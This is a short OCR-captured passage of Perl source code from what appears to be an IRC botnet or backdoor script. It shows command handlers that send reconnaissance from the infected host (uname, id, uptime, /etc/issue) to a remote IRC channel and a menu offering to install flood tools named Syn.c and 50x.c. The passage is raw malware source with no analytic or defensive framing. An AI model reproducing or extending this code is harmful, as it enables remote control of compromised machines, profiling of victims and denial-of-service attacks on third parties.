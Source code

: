               if ($funcarg =~ /^extras/) { 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :12,1[14@13-----[Extras]-----14@12] "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :12,1[14@13To install these scripts you need gcc installed14@12] "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3install-syn Syn.c");      

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3install-50x 50x.c");			

         }           

###################### 

#   End of  Help     # 

###################### 

  

  

###################### 

#     Commands       # 

###################### 

 if ($funcarg =~ /^system/) { 

 sendraw($IRC_cur_socket, "PRIVMSG $printl Come on and hit that ricky"); 

 } 

         if ($funcarg =~ /^sys/) { 

            $uname=`uname -a`; 

            $uptime=`uptime`; 

            $ownd=`pwd`; 

            $distro=`cat /etc/issue`; 

            $id=`id`; 

            $un=`uname -sro`; 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:4System Info12:.4| 12Info BOT : 7 Servidor :Hiden : 6667"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:4System Info12:.4| 12Uname -a     : 7 $uname"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:4System Info12:.4| 12Uptime       : 7 $uptime"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:4System Info12:.4| 12Own Prosses  : 7 $processo"); 

